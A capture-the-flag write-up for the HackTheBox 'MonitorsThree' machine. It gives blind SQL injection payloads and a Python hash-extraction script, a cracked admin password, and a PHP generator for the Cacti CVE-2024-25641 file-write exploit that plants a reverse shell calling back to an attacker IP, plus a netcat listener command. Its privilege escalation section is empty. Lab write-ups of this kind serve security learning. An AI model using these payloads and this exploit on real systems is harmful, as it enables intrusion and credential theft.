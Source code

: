 This is a writeup for recently expired monitorsthree machine in Hackthebox platform.

### Part 1: Enumeration

As always lets startup with good old nmap scan:

![NMAP](/static/writeups/monitors/1.png)

SSH and HTTP with port 22 and 80 respectively are open.
lets see what website is hosted in port 80, we have to add monitorsthree.htb to machine ip in /etc/hosts:

![NMAP](/static/writeups/monitors/2.png)

I can see site called monitorsthree.htb, lets enumerate subdomain:
as i used bash script, to add wordlist to /etc/host and send request to it:

```
#!/bin/bash

DOMAIN="monitorsthree.htb"
IP="10.10.11.30"

WORDLIST="/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt"


while read -r SUBDOMAIN; do
    FULLDOMAIN="${SUBDOMAIN}.${DOMAIN}"

    echo "$IP $FULLDOMAIN" >> /etc/hosts

    RESPONSE=$(curl -s -o /dev/null -w "%{http_code}" "http://$FULLDOMAIN")

    if [ "$RESPONSE" == "302" ]; then
        echo "Found: $FULLDOMAIN"
    fi

    sed -i "/$FULLDOMAIN/d" /etc/hosts

done < "$WORDLIST"

```

I found interesting subdomain called 'cacti.monitorsthree.htb', it asks for login credentials we don't have any so for now lets keep note of it.

there is a login page in monitorsthree.htb/login.php, and when using forgot password, i found sql injection in forgot_password.php by submitting:`'`:

![NMAP](/static/writeups/monitors/3.png)

### Part 2: Foothold

by submitting : `'order by 3--+`
till it gives error, from error I can see that it uses mariadb.
When I use nine column:

<span style="color: red;">
ad'union select null,null,null,null,null,null,null,null,null from dual--
</span>

it says successfully sent request code, so I know that query is returning nine column.

By submitting,

<span style="color: red;">ad'||(SELECT '' FROM table)||'</span>

it gives error and querying using

<span style="color: red;">ad'||(SELECT '' FROM users)||'</span>

gives successful output

![NMAP](/static/writeups/monitors/5.png)

now I know there is a table called users.
To enumerate user, i first used username administrator

<span style="color: red;">ad' ||((SELECT 'a' FROM users WHERE username='administrator')='a')||'</span>

this gives error: 'Unable to process request, try again!'

![NMAP](/static/writeups/monitors/4.png)

but as when I input admin:

<span style="color: red;">ad' ||((SELECT 'a' FROM users WHERE username='admin')='a')||'</span>

it outputs: 'Successfully sent password reset request!'

![NMAP](/static/writeups/monitors/5.png)

so, I know there is user called admin now. Now, to enumerate password first i need to find length of the password so i can design payload accordingly.

<span style="color: red;">ad' ||((SELECT 'a' FROM users WHERE username='admin' and length(password)=32)='a')||'</span>

it returns successful so, password length must be 32, it means it is some kind of hash

<span style="color: red;">
ad' ||(SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='3'||'
</span></br>
<span style="color: red;">
ad' ||(SELECT SUBSTRING(password,2,1) FROM users WHERE username='admin')='1'||'
</span>

As it returns successful message back like this, I found first and second character of hash but it is time consuming so i decided to do it with python script:

```

import requests
import time

# Target URL
url = "http://monitorsthree.htb/forgot_password.php"

# Initialize known characters of the password
known_password = ""

# List of possible characters (you may adjust as needed)
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

# Function to check if a guessed character is correct
def is_correct_char(position, char):
    # Construct payload
    payload = f"ad' ||((SELECT SUBSTRING(password,{position},1) FROM users WHERE username='admin')='{char}')||'"

    # Data to be sent in the POST request
    data = {
        "username": payload,
        "submit": "Send"
    }

    try:
        # Send the POST request
        response = requests.post(url, data=data)
        # Check response to see if the guess was correct
        if "Successfully sent password reset request!" in response.text:
            return True
    except requests.exceptions.ConnectionError as e:
        print("Connection error. Retrying...")
        time.sleep(5)  # Wait for 5 seconds before retrying
        return is_correct_char(position, char)
    return False

# Loop to find each character of the password
for position in range(1, 33):  # Assuming password length is 32
    for char in characters:
        if is_correct_char(position, char):
            # Add the correct character to the known password
            known_password += char
            print(f"[+] Found character {position}: {char}")
            break
    # Delay to avoid server-side rate limiting or detection
    time.sleep(1)  # Adjust the delay as necessary

# Print the complete password when done
print(f"[+] Password: {known_password}")

```

Output:

![NMAP](/static/writeups/monitors/6.png)

I got admin user hash value from it:

By using hashid, i think it is md5 hash

![NMAP](/static/writeups/monitors/7.png)

I cracked the hash using hashcat which corresponds to: greencacti2001

![NMAP](/static/writeups/monitors/8.png)

Now, lets use these credential in login.php and 'cacti.monitorsthree.htb'. One thing i notice when opening 'cacti.monitorsthree.htb' is it is using cacti v 1.2.26 and quick research shows us vulnerability in this specific version to use Arbitrary file write to RCE.

[https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26.git]

To get shell i used this:

```

<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/shell.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = "<?php
\$ip = '10.10.14.59';
\$port = 3669;
\$sock = fsockopen(\$ip, \$port);
\$proc = proc_open('/bin/bash -i', array(0 => \$sock, 1 => \$sock, 2 => \$sock), \$pipes);
?>";

$keypair = openssl_pkey_new();
$public_key = openssl_pkey_get_details($keypair)["key"];
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("shell.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat shell.xml | gzip -9 > shell.xml.gz; rm shell.xml");

?>

```

save this as shell.php and run it using `php shell.php`, it will generate file called shell.xml.gz upload it in import packages in cacti:

![NMAP](/static/writeups/monitors/9.png)

As you can see, I successfully uploaded shell.php in the machine, I can execute it by going to: `http://cacti.monitorsthree.htb/cacti/resource/shell.php`
before that open netcat listener in your machine: `nc -nvlp port`
I got shell as www-data using this method.

### Part 3: Privilege Escalation:

```

```

